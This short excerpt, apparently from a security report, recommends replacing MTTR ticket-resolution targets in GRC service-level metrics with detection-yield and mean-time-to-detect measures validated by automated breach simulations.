5. **Realign GRC SLA Metrics:** Replace raw MTTR ticket resolution targets with **Empirical Detection Yield (TDY)** and **Mean Time to Detect (MTTD)** validated by automated breach simulations.

---
